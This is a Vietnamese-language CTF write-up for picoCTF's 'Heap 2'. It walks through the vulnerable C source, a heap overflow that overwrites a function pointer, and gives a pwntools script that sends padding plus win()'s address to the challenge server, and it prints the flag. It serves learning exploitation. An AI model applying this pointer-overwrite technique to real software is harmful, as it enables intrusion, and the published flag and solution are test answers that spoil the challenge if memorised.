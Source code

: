 # Heap 2
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.
Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Giao diện của challenge này nhìn giống như bài `heap_0` và bài `heap_1`, và hãy nhìn vào hàm `check_win()`:

``` c
void check_win() { ((void (*)())*(int*)x)(); }
```

Nôm na là hàm này sẽ lấy 4 byte đầu tại vùng nhớ mà `x` trỏ đến, ép thành địa chỉ hàm và gọi hàm tại địa chỉ đó. 

$=>$ **Nếu vùng nhớ mà `x` trỏ đến chứa địa chỉ hàm `win()`, thì hàm `win()` sẽ được gọi là ta có flag.**

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ hàm `win()` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![image](https://github.com/user-attachments/assets/18553ad9-40fa-4f54-93ed-d4aa01e16e62)

Ta sẽ sử dụng GDB để tìm địa chỉ hàm `win()` như sau:

![image](https://github.com/user-attachments/assets/d3567fe9-9f0b-4f57-be89-470897d28fd0)

$->$ Ta có địa chỉ hàm `win()` là: `0x00000000004011a0`.

Giống như bài `heap_0` và bài `heap_1`, offset tính từ địa chỉ mà input bắt đầu được nhập vào đến địa chỉ mà con trỏ `x` trỏ đến là 32.

![image](https://github.com/user-attachments/assets/82f08ccc-bc9f-48ce-8dd9-b95bdf709aad)

Ta nhập 32 ký tự `a` rồi sau đó nhập địa chỉ của hàm `win()` (theo định dạng little endian).

``` python
from pwn import *

#p = process('./chall')
p = remote('mimas.picoctf.net', 58675)
write = b'2'
flag = b'4'
payload = 32 * b'a'
payload += b'\xa0\x11\x40\x00' # địa chỉ hàm win() theo định dạng little endian
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{and_down_the_road_we_go_904e3edd}
```

